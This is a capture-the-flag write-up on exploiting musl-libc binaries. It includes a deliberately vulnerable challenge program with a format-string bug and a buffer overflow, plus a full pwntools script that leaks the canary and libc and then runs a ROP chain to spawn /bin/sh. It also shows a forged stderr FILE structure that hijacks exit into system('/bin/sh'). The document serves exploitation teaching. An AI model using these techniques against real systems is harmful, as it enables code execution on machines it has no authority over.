


### Overview
This is one of the challenge that I authored for Backdoor CTF 2025.The challenge was tagged beginner and It was compiled with musl libc.After a week,I gave NiteCTF and there was also a challenge compiled with musl libc.I solved that challenge using ```FSOP``` which I am going to demonstrate in Exploitation Part.
As always,All mitigations are enabled.
```md
Canary                                  : Enabled
NX                                      : Enabled
PIE                                     : Enabled
RELRO                                   : Full RELRO
Fortify                                 : Not found
```

### Source code 
This is the source code of the challenge.
The code is really simple.It first calls ```liik``` then ```likkky``` and then ```scanf``` on ```buffer``` which is 0x10 bytes,giving us plain old powerful ```buffer overflow```.
liik and likky function can be used to get libc and canary leak.
```c
#include <stdio.h>

void liiik() {
  char buffer[1024] = {0};
  read(0x0,buffer ,0x5);
  printf(buffer);
  puts("I think you do not need warmup!!");
}

void likkkkky() {
  char buffer[1024] = {0};
  read(0x0,buffer ,0x28);
  printf(buffer);
  puts("I think you do not need warmup!!");
}

int main() {
  liiik();
  puts(("One more time and you will be strong!!"));
  likkkkky();
  char array[0x10];
  scanf("%s", array);

  return 0;

}
```
But there's a twist.[Musl](https://elixir.bootlin.com/musl/v1.2.5/source/src/) libc does not support ```percentage``` in printf function.So we can't use ```$``` sign to leak value wrt to stack.Also the ld and libc is same in musl as seen through vmmap in gef so only one leak is enough for everything.
<!-- //Todo->picture of vmmap -->



### Exploitation
After debugging in gef, directly sending ```"%p%p"``` gives us ```libc and stack leak```.For ```canary``` leak,we have to use ```"%s"``` to leak it.```Stack address[$RBP-0x8]``` and libc address in TLS region points to the ```canary``` so we can use either of them to leak the canary.
In ```glibc```,canary is randomized 8 bytes and has ```null bytes``` in the least significant byte to prevent accidental read or write via puts or printf.
But in musl, ```null byte``` of ```canary``` is present at the ```second lowest significant byte```.
```md
gef> x $rbp-0x8
0x7fffffffdf98:	0x88a1c0175ca30004	<-canary
```


So We have to leak ```six``` bytes and then ```one``` bytes then reconstruct the canary for rop chain.
```python
from pwn import *
elf = context.binary = ELF("./chall")
context.log_level  = "Debug"
# libc = ELF("/usr/local/musl/lib/libc.so")
libc  = ELF("./libc.so")
# io =process(["./libc.so","./test_patched"])
io = process()
gdbscript ='''
# b *liiik+146
# b *likkkkky+146
b *main+84
'''
# gdb.attach(io,gdbscript=gdbscript)
payload = b"%p%p"
io.sendline(payload)
stack_leak =int(io.recvn(0x8+0x6),0x10)
log.critical(f"stack leak :{hex(stack_leak)}")


io.recvn(0x10-0x8-0x6)
libc_leak =int(io.recvn(0xc),0x10)
log.critical(f"libc leak :{hex(libc_leak)}")

libc.address =libc_leak-0xb1ba4
io.recvuntil(b"strong!!")

payload = b"%p%p%p%p%p%p%p%p"+b"AAAA"+b"%s"+b"%s"
payload+= p64(libc_leak-0x14)
payload+=p64(libc_leak-0x12)

io.sendline(payload)

io.recvuntil(b"AAAA")
canary_lsb = unpack(io.recvn(0x1),"all")
log.critical(f"canary lsb :{hex(canary_lsb)}")


canary_upper_6_bytes = unpack(io.recvn(0x6),"all")
canary = (canary_upper_6_bytes<<16)+canary_lsb
log.critical(f"canary complete :{hex(canary)}")

pop_rdi = libc.address+0x00000000000142a5
system = libc.address+0x4cd40
# bin_sh  = libc.address+0xb2cf0
bin_sh =stack_leak+0x70
ret = libc.address+0x0000000000016cec

# rop_chain =b"A"*0x18+pack(canary)+pack(0x0)+pack(pop_rdi)+pack(bin_sh)+pack(ret)+pack(system)
syscall = libc.address+0x00000000000140c3
pop_rsi = libc.address+0x0000000000015759
pop_rdx= libc.address+0x0000000000029c7b
pop_rax =libc.address+0x00000000000159d6

rop_chain =b"/bin/sh\x00"+b"A"*0x10+pack(canary)+pack(0x0)+pack(pop_rdi)+pack(bin_sh)+pack(pop_rsi)+pack(0x0)+pack(pop_rdx)+pack(0x0)+pack(pop_rax)+pack(0x3b)+pack(syscall)

io.recvuntil(b"warmup!!")
io.sendline(rop_chain)

io.interactive()
```
### FSOP
One week after this,Another musl challenge came in ```NITE-CTF``` and I used ```FSOP to hijack exit handler``` to execute ```system("/bin/sh")```.
First of all let's see the how program ```exits``` in musl?
For this I am writing a demo program  that gives us arbitrary write primitive on ```stderr``` and then calls ```exit(0)```.

```c
#include <stdio.h>
#include <unistd.h>
int main() {
  printf("stderr :%p\n", stderr);
  read(STDIN_FILENO, stderr, 0x100);
}
```
Above code prints the address of ```stderr``` and then gives the ```write primitive on stderr```.
This is the  ```file structure``` in musl.
```md
gef> ptype struct _IO_FILE
type = struct _IO_FILE {
    unsigned int flags;
    unsigned char *rpos;
    unsigned char *rend;
    int (*close)(FILE *);
    unsigned char *wend;
    unsigned char *wpos;
    unsigned char *mustbezero_1;
    unsigned char *wbase;
    size_t (*read)(FILE *, unsigned char *, size_t);
    size_t (*write)(FILE *, const unsigned char *, size_t);
    off_t (*seek)(FILE *, off_t, int);
    unsigned char *buf;
    size_t buf_size;
    FILE *prev;
    FILE *next;
    int fd;
    int pipe_pid;
    long lockcount;
    int mode;
    volatile int lock;
    int lbf;
    void *cookie;
    off_t off;
    char *getln_buf;
    void *mustbezero_2;
    unsigned char *shend;
    off_t shlim;
    off_t shcnt;
    FILE *prev_locked;
    FILE *next_locked;
    __locale_struct *locale;
}
```
As you can see there is ```no vtable``` in file structure.idk why but ptype/ox in gef
which is used to show offsets in file structure is not working,but idt we need it as 
checks can also be deduced by reading assembly of close_file.
This is the stderr file structure in musl.

```md
gef> p/x *(struct _IO_FILE *)stderr
$6 = {
  flags = 0x5,
  rpos = 0x0,
  rend = 0x0,
  close = 0x7ffff7fa4da0,
  wend = 0x0,
  wpos = 0x0,
  mustbezero_1 = 0x0,
  wbase = 0x0,
  read = 0x0,
  write = 0x7ffff7fa4f80,
  seek = 0x7ffff7fa4f70,
  buf = 0x7ffff7ffded8,
  buf_size = 0x0,
  prev = 0x0,
  next = 0x0,
  fd = 0x2,
  pipe_pid = 0x0,
  lockcount = 0x0,
  mode = 0x0,
  lock = 0xffffffff,
  lbf = 0xffffffff,
  cookie = 0x0,
  off = 0x0,
  getln_buf = 0x0,
  mustbezero_2 = 0x0,
  shend = 0x0,
  shlim = 0x0,
  shcnt = 0x0,
  prev_locked = 0x0,
  next_locked = 0x0,
  locale = 0x0
}
```
```c
_Noreturn void exit(int code)
{
	__funcs_on_exit();
	__libc_exit_fini();
	__stdio_exit();
	_Exit(code);
}
```
```asm
   0x00007ffff7f600c8 <+56>:	call   0x7ffff7f6a930 <__funcs_on_exit>
   0x00007ffff7f600cd <+61>:	call   0x7ffff7fc0d40 <__libc_exit_fini>
   0x00007ffff7f600d2 <+66>:	xor    eax,eax
   0x00007ffff7f600d4 <+68>:	call   0x7ffff7fa4e40 <__stdio_exit>
   0x00007ffff7f600d9 <+73>:	mov    edi,ebx
   0x00007ffff7f600db <+75>:	call   0x7ffff7f6a770 <_Exit>
```
Above is the disassembly of exit.
```c
_Noreturn void _Exit(int ec)
{
	__syscall(SYS_exit_group, ec);
	for (;;) __syscall(SYS_exit, ec);
}
```
Upon calling exit,it calls some cleaning functions and then syscall.

Function __stdio_exit()->It cleans the stdin,stdout and stderr.
```c
void __stdio_exit(void)
{
	FILE *f;
	for (f=*__ofl_lock(); f; f=f->next) close_file(f);
	close_file(__stdin_used);
	close_file(__stdout_used);
	close_file(__stderr_used);
}
```
```asm
Dump of assembler code for function __stdio_exit:
   0x00007ffff7fa4e40 <+0>:	endbr64 
   0x00007ffff7fa4e44 <+4>:	push   rbx
   0x00007ffff7fa4e45 <+5>:	call   0x7ffff7fa7f60 <__ofl_lock>
   0x00007ffff7fa4e4a <+10>:	mov    rbx,QWORD PTR [rax]
   0x00007ffff7fa4e4d <+13>:	test   rbx,rbx
   0x00007ffff7fa4e50 <+16>:	je     0x7ffff7fa4e69 <__stdio_exit+41>
   0x00007ffff7fa4e52 <+18>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fa4e58 <+24>:	mov    rdi,rbx
   0x00007ffff7fa4e5b <+27>:	call   0x7ffff7fa4dd0 <close_file>
   0x00007ffff7fa4e60 <+32>:	mov    rbx,QWORD PTR [rbx+0x70]
   0x00007ffff7fa4e64 <+36>:	test   rbx,rbx
   0x00007ffff7fa4e67 <+39>:	jne    0x7ffff7fa4e58 <__stdio_exit+24>
   0x00007ffff7fa4e69 <+41>:	mov    rdi,QWORD PTR [rip+0x56560]  #  <__stdin_used>
   0x00007ffff7fa4e70 <+48>:	call   0x7ffff7fa4dd0 <close_file>
   0x00007ffff7fa4e75 <+53>:	mov    rdi,QWORD PTR [rip+0x5655c]  #  <__stdout_used>
   0x00007ffff7fa4e7c <+60>:	call   0x7ffff7fa4dd0 <close_file>
   0x00007ffff7fa4e81 <+65>:	mov    rdi,QWORD PTR [rip+0x56540]  #  <__stderr_used>
   0x00007ffff7fa4e88 <+72>:	pop    rbx
   0x00007ffff7fa4e89 <+73>:	jmp    0x7ffff7fa4dd0 <close_file>
```
And this is the close_file() function. As there are very less checks on the file structure,
and with ```arbitrary write primitive```,if we control  ```f->wpos``` ,```f->wbase``` and ```f->write``` .
We can easily call ```system``` by overwritng ```f->write``` to ```system``` and ```f->_flags``` to ```"/bin/sh"```.
```c
static void close_file(FILE *f)
{
	if (!f) return;
	FFINALLOCK(f);
	if (f->wpos != f->wbase) f->write(f, 0, 0);
	if (f->rpos != f->rend) f->seek(f, f->rpos-f->rend, SEEK_CUR);
}
```
This is the assembly of close_file().

```asm
   0x00007ffff7fa4dd0 <+0>:	test   rdi,rdi
   0x00007ffff7fa4dd3 <+3>:	je     0x7ffff7fa4e38 <close_file+104>
   0x00007ffff7fa4dd5 <+5>:	push   rbx
   0x00007ffff7fa4dd6 <+6>:	mov    eax,DWORD PTR [rdi+0x8c]
   0x00007ffff7fa4ddc <+12>:	mov    rbx,rdi
   0x00007ffff7fa4ddf <+15>:	test   eax,eax
   0x00007ffff7fa4de1 <+17>:	jns    0x7ffff7fa4e20 <close_file+80>
   0x00007ffff7fa4de3 <+19>:	mov    rax,QWORD PTR [rbx+0x38]
   0x00007ffff7fa4de7 <+23>:	cmp    QWORD PTR [rbx+0x28],rax
   0x00007ffff7fa4deb <+27>:	je     0x7ffff7fa4df7 <close_file+39>
   0x00007ffff7fa4ded <+29>:	xor    edx,edx
   0x00007ffff7fa4def <+31>:	xor    esi,esi
   0x00007ffff7fa4df1 <+33>:	mov    rdi,rbx
   0x00007ffff7fa4df4 <+36>:	call   QWORD PTR [rbx+0x48]
   0x00007ffff7fa4df7 <+39>:	mov    rsi,QWORD PTR [rbx+0x8]
   0x00007ffff7fa4dfb <+43>:	mov    rax,QWORD PTR [rbx+0x10]
   0x00007ffff7fa4dff <+47>:	cmp    rsi,rax
   0x00007ffff7fa4e02 <+50>:	je     0x7ffff7fa4e30 <close_file+96>
   0x00007ffff7fa4e04 <+52>:	sub    rsi,rax
   0x00007ffff7fa4e07 <+55>:	mov    rdi,rbx
   0x00007ffff7fa4e0a <+58>:	mov    rax,QWORD PTR [rbx+0x50]
   0x00007ffff7fa4e0e <+62>:	mov    edx,0x1
   0x00007ffff7fa4e13 <+67>:	pop    rbx
   0x00007ffff7fa4e14 <+68>:	jmp    rax
   0x00007ffff7fa4e16 <+70>:	cs nop WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fa4e20 <+80>:	call   0x7ffff7fa4be0 <__lockfile>
   0x00007ffff7fa4e25 <+85>:	jmp    0x7ffff7fa4de3 <close_file+19>
   0x00007ffff7fa4e27 <+87>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fa4e30 <+96>:	pop    rbx
   0x00007ffff7fa4e31 <+97>:	ret    
   0x00007ffff7fa4e32 <+98>:	nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7fa4e38 <+104>:	ret    
```
See this instruction
```md
   0x00007ffff7fa4de3 <+19>:	mov    rax,QWORD PTR [rbx+0x38]
   0x00007ffff7fa4de7 <+23>:	cmp    QWORD PTR [rbx+0x28],rax
```
this is the equality check of  ```wpos``` and ```wbase```.
and then this call instruction;
```md
   0x00007ffff7fa4df4 <+36>:	call   QWORD PTR [rbx+0x48]
```
and here is the call to ```f->write```.
This is the fake stderr structure which I used to get shell.
```python
system = libc_leak+0x4e0c0-0xad080
fsop = b"/bin/sh\x00"#0x0
fsop +=pack(0x0)*4#0x20
fsop+=pack(0x0)#0x28
fsop+=pack(0x0)#0x30
fsop+=pack(0x1)#0x38
fsop+=pack(0x0)#0x40
fsop+=pack(system)#0x48
```
### DeepShii
This is just the first part of the musl pwn series. Also this is not complete.
Maybe I'll update it asap.


